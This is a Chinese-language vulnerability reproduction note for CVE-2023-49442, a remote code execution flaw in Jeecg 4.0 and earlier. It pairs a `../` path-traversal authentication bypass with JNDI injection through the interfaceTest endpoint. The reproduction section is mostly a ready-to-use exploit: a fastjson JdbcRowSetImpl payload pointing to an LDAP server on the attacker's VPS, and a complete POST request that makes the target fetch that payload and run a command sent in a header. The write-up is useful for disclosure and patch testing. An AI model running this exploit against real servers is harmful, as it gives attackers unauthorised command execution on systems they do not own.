 # Jeecg jeecgFormDemoController JNDI 代码执行漏洞 CVE-2023-49442

## 漏洞描述

Jeecg 4.0及之前版本中，由于 /api 接口鉴权时未过滤路径遍历，攻击者可构造包含 `../` 的url绕过鉴权。攻击者可构造恶意请求利用 `jeecgFormDemoController.do?interfaceTest` 接口进行 jndi 注入攻击，实现远程代码执行。

Jeecg（J2EE Code Generation）是开源的代码生成平台，目前官方已停止维护。注：Jeecg 与 Jeecg-boot 非相同应用。

参考链接：

- https://xz.aliyun.com/t/13283

## 漏洞影响

```
Jeecg <= 4.0
```

## 漏洞复现

测试环境 fastjson 版本`1.2.31`，漏洞位置 `src/main/java/com/jeecg/demo/controller/JeecgFormDemoController.java`。

直接发包访问接口会 302 跳转，需要构造包含 `../` 的 url 绕过鉴权。`api` 接口不做限制，因此构造漏洞地址如下：

```
/api/../jeecgFormDemoController.do?interfaceTest=
```

JNDI 注入工具： https://github.com/WhiteHSBG/JNDIExploit

创建远程文件 poc.txt，其内容为 fastjson 代码执行的 payload：

```
{
	"a": {
		"@type": "java.lang.Class",
		"val": "com.sun.rowset.JdbcRowSetImpl"	
	},
	"b": {
		"@type": "com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName": "ldap://<your-vps-ip>:1389/Basic/TomcatEcho",
		"autoCommit": true
	}
}
```

发送如下请求包：

```
POST /jeecg/api/../jeecgFormDemoController.do?interfaceTest= HTTP/1.1
Host: 127.0.0.1:8081
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
cmd: whoami

serverUrl=http://<your-vps-ip>:8081/poc.txt&requestBody=123&requestMethod=GET
```

![](images/Jeecg%20jeecgFormDemoController%20JNDI%20代码执行漏洞%20CVE-2023-49442/image-20240417144824154.png)
